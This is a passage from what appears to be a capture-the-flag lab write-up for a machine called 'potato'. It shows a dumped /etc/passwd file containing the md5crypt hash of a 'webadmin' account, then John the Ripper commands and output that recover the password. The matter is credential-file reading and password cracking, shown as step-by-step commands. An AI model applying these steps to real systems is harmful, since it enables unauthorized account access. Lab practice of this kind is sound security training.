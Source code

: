 ```html

lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false

proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin

ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin

webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash

</PRE>

````

We got the /etc/passwd file and the hash for the webadmin account!

Lets try to crack it with john.

````shell

┌──(kali㉿kali)-[~/Documents/potato/john]

└─$ touch hash.john | echo -e '$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/' >> hash.john

┌──(kali㉿kali)-[~/Documents/potato/john]

└─$ john hash.john      

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"

Use the "--format=md5crypt-long" option to force loading these as that type instead

Using default input encoding: UTF-8

Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])

Will run 4 OpenMP threads

Proceeding with single, rules:Single

Press 'q' or Ctrl-C to abort, almost any other key for status

Almost done: Processing the remaining buffered candidate passwords, if any.

Proceeding with wordlist:/usr/share/john/password.lst

dragon           (?)    

1g 0:00:00:00 DONE 2/3 (2023-01-30 07:46) 33.33g/s 6400p/s 6400c/s 6400C/s 123456..knight

Use the "--show" option to display all of the cracked passwords reliably

Session completed.

````
